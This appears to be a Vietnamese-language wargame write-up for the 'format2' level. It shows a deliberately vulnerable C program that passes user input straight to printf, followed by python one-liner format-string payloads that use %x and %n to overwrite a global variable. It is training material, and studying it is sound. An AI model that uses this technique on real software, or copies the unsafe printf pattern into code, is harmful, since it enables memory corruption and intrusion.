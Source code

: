 # **format2**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Vulnerability
printf(): hàm printf() không check liệu input có đúng định dạng hay không.\
%n: write

## Exploit
- Tương tự bài format1, tìm địa chỉ target: 0x080496e4
- Xây dựng attack-string:
```
python -c "print ('\xe4\x96\x04\x08' + '%x '*30+ '%n' + 'A'*500)[:500]" | ./format2
```
- Do lần này là biến local buffer chứ không phải argv[1] nên payload được nạp vào stack ở gần đỉnh:

  <img src="pictures/target_in_stack.png">

- Tương tự như format1, điều chỉnh số lượng %x, thay vào %n:
  ```
  python -c "print ('\xe4\x96\x04\x08' + '%x '*3 + '%n' + 'A'*500)[:500]" | ./format2
  ```
- Kết quả: 
  ```
  target is 26 :(
  ```
- Thêm 38 ký tự rác vào trước %n là ok:
  ```
  python -c "print ('\xe4\x96\x04\x08' + '%x '*3 + 'A'*38 + '%n' + 'A'*500)[:500]" | ./format2
  ```

<img src="pictures/success.png">

# References